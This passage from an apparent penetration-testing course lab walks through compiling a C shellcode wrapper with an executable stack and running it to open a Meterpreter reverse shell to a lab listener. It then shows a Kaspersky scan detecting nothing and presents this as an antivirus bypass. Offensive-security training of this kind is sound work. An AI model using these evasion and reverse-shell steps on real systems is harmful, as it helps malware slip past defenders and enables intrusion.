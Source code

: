 We'll provide an output file, hack.out, with the -o parameter and a source code file, hack.c.

```
offsec@linuxvictim:/tmp$ gcc -o hack.out hack.c -z execstack
```

> Listing 32 - Compiling our C code wrapper

Note that we can compile this example on our Kali VM or the linuxvictim VM in our lab. In a real-world environment, if compiling on Kali, we would need to be sure the processor architecture matched the target environment.

Next, we can run our shellcode wrapper.

```
offsec@linuxvictim:/tmp$ ./hack.out
```

> Listing 33 - Running our C code wrapper

On our Metasploit side, we receive our shell.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.119.120:1337 
[*] Sending stage (3021284 bytes) to 192.168.120.45
[*] Meterpreter session 6 opened (192.168.119.120:1337 -> 192.168.120.45:52140)

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
```

> Listing 34 - Receiving a shell from our C code wrapper

We know our shellcode wrapper program works even though Kaspersky real-time scanning is enabled, but let's try explicitly scanning it with Kaspersky just to find out what happens.

```
offsec@linuxvictim:/opt/av$ sudo kesl-control --scan-file ./hack.out
Scanned objects                     : 1
Total detected objects              : 0
Infected objects and other objects  : 0
Disinfected objects                 : 0
Moved to Storage                    : 0
Removed objects                     : 0
Not disinfected objects             : 0
Scan errors                         : 0
Password-protected objects          : 0
Skipped objects                     : 0
offsec@linuxvictim:/opt/av$ 
```

> Listing 35 - Scan results from our C code wrapper

Surprisingly, we can bypass Kaspersky by simply wrapping our shellcode in a C program.

Kaspersky was fairly easy to bypass. However, not all antivirus products are the same, so let's try an alternative.

